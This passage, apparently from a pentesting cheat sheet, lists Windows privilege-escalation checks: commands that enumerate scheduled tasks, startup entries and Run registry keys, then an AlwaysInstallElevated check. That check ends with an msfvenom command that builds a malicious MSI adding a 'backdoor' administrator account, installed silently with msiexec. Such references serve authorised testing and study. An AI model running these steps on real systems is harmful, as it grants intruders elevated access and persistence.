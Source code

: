 Check https://www.toshellandback.com/2015/08/30/gpp/ for some explanations.


### Scheduled Tasks

Look for anything custom, run by a privileged user, and running a binary we can overwrite. Might be tons of output
```cmd
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
schtasks /query /tn "Map Share at boot"
SCHTASKS /Query /TN "\Microsoft\Windows\MyTask" /FO list /v

SCHTASKS /Query /TN "Map Share at boot" /FO list /v
```

```
Or in powershell
```powershell
Get-ScheduledTask | ft TaskName, State
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
Check this file
```cmd
c:\WINDOWS\SchedLgU.Txt
```

Startup tasks

```cmd
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

### AlwaysInstallElevated

Worth checking for...
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If those keys are set to enabled, then you can use msfvenom to generate a malicious MSI file and install it:
```bash
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```
https://toshellandback.com/2015/11/24/ms-priv-esc/ has some more examples.


### Weak Service, Process, and Program Permissions
Taken mostly from https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/
